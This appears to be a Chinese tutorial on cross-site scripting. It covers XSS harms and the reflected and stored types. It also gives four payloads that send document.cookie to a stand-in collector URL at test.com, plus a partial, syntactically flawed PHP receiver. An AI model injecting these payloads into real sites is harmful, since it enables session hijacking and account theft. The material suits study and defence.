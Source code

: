 # xss

XSS, 即为（Cross Site Scripting）, 中文名为跨站脚本, 是发生在目标用户的浏览器层面上的，当渲染DOM树的过程成发生了不在预期内执行的JS代码时，就发生了XSS攻击。

**xss的危害：**

(1)网络钓鱼，包括获取各类用户账号

(2)通过document.cookie盗取cookie

(3)会话劫持，从而执行任意操作，例如进行非法转账，强制发表日志、发送电子邮件等

(4)网页挂马

(5)弹出广告，刷流量

(6)篡改页面信息,使用js或css破坏页面正常的结构与样式,，删除文章等

(7)进行大量用户攻击，如DDoS攻击

(8)传播跨站脚本蠕虫

(9)获取用户的客户端信息，例如ip地址，浏览历史，开放端口号等

(10)结合其他攻击，例如CSRF，进行进一步攻击

...

### 1.xss分类

(1)反射型

反射型XSS，也叫非持久型XSS，是指发生请求时，XSS代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含XSS代码，最后浏览器解析并执行。

(2)存储型

存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上XSS代码了。

最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，就当做正常的HTML和JS解析执行。XSS攻击就发生了。

### 2.xss攻击方式解析

(1)cookie 盗取

原理：
  
在一个具有存储型xss(或者反射型)的网站里，攻击者就可以向漏洞页面写入可以窃取cookie的恶意代码，当用户浏览页面时，攻击者就能获取用户浏览器中的cookie信息。

攻击者可以用以下几种方式窃取cookie信息：

```html
//方式一
<script>document.location="http://www.test.com/cookie.php?cookie="+document.cookie</srcipt>

//方式二
<img src="http://www.test.com/cookie.php?cookie="+document.cookie></img>

//方式三
<script>
  new Image().src="http://www.test.com/cookie.php?cookie="+document.cookie
</script>

//方式四
<script>
 document.write('<img src="http://www.test.com/cookie.php?cookie="+document.cookie/>')
</script>
```

在远程服务器上有记录和接受cookie信息的文件：

```php
<?php
$cookie=$_GET('cookie');
...
```

攻击者获取cookie信息后，还要与web系统建立会话，才能侵入用户的账户，建立会话通常需要能修改cookie的工具，例如桂林老兵cookie欺骗工具，firefox的浏览器插件firecookie等。






